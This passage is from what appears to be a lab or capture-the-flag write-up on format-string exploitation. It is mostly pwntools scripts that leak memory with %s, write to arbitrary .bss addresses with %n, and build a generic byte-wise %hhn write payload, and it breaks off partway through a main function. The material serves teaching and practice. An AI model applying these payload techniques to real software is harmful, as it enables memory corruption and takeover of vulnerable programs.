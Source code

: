 ```python
p0 = process(BINARY)
bss_addr = 0x404120
p0.readuntil(b'Send your data!')
payload = b'B' * 7  
'''
Recall we cannot insert null byte, or the string would be terminated.
Also recall rsp+0 stands for the 6th format argument. 
Moreover, for simplicity, I will align component to sizeof(qword) == 8 bytes. 
'''
payload += b' %23$s  '
payload += struct.pack('<Q', bss_addr) 
payload += (256 - len(payload)) * b'A'
p0.send(payload)

p0.interactive()
```

## Challenge 4

Simply writing 4 bytes of 0x23 into arbitrary `.bss` address. 

```python
p0 = process(BINARY)
win_addr = 0x404160
p0.readuntil(b'Send your data!')
payload = b'AA%33c'  # Write 0x23
payload += b'%31$n'
payload += struct.pack('<Q', win_addr)  # store the win address on the stack
payload += (256 - len(payload)) * b'A'
p0.send(payload)

p0.interactive()
```

## Challenge 5

Similar to before, but now the global variable is larger. \
Hence, we would perform multiple single-byte writes using `%hhn`. \
I've created a generic method that receives a goal value to write, as well as offset within the stack where the expected goal address resides, and generates a format string that writes the goal value within byte-granularity. 

```python
def gen_fmt(offset, value):
    value_bytes = list(value.to_bytes(8, 'little'))
    value_bytes_sorted = sorted(value_bytes)

    payload = b''
    prev_val = 0
    for val in value_bytes_sorted:
        payload += b'%' + str(val - prev_val).encode() + b'c'
        payload += b'%' + str(offset + value_bytes.index(val)).encode() + b'$hhn'
        prev_val = val

    payload += (8 - (len(payload) % 8)) * b'B'
    print(payload)
    
    return payload


def main(): 
    p0 = process(BINARY)
    win_addr = 0x4040f8
    offset = 49
```